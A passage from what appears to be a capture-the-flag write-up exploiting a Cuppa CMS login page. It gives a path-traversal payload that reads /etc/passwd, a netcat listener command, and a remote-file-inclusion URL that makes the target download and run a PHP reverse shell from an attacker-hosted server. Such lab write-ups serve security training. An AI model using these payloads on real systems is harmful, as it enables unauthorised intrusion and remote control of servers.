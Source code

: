 At this point, we have access to a hidden subdirectory containing a Cuppa login form. We don't have much to go on, but a quick searchsploit search for Cuppa shows the existence of a [remote file inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) exploit.

<center>

![7625f4004a5627aa9cdd25797e853595.png](../../_resources/7625f4004a5627aa9cdd25797e853595.png)

</center>

We'll use the exploit from [exploit-db](https://www.exploit-db.com/exploits/25971). To use it, we simply append `/alerts/alertConfigField.php?urlConfig=<path to file>` to the current url (where we found the login page). For instance, we can view the `/etc/passwd` file by navigating to `/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`. However, what we would like to do is set up a reverse shell using this method.

Set up a netcat lister with `rlwrap nc -lvnp 9999`. Download and modify [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), host it on an http server with `python3 -m http.server,` and use the above exploit to navigate to `/alerts/alertConfigField.php?urlConfig=http://10.6.30.43:8000/php-reverse-shell.php`. After a short while, the target machine completes the request, download the reverse shell php script, and we obtain a reverse shell.

<center>

![c805141dd6b0c16cf4845b1bb05e7171.png](../../_resources/c805141dd6b0c16cf4845b1bb05e7171.png)

</center>